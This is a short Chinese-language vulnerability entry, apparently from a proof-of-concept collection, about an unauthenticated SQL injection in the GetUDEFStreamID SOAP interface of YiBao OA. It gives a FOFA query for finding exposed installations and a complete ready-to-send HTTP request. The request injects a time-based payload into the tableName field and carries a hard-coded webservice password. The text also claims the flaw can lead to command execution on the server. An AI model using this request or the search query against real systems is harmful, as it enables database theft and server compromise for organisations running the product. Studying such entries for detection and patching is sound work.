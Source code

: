 ## 易宝OA-GetUDEFStreamID存在SQL注入漏洞

易宝OA GetUDEFStreamID 接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。


## fofa

```yaml
app="顶讯科技-易宝OA系统"
```

## poc

```java
POST /WebService/BasicService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetUDEFStreamID"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetUDEFStreamID xmlns="http://tempuri.org/">
      <tableName>';WAITFOR DELAY '0:0:5'--</tableName>
      <webservicePassword>{ac80457b-368d-4062-b2dd-ae4d490e1c4b}</webservicePassword>
    </GetUDEFStreamID>
  </soap:Body>
</soap:Envelope>
```

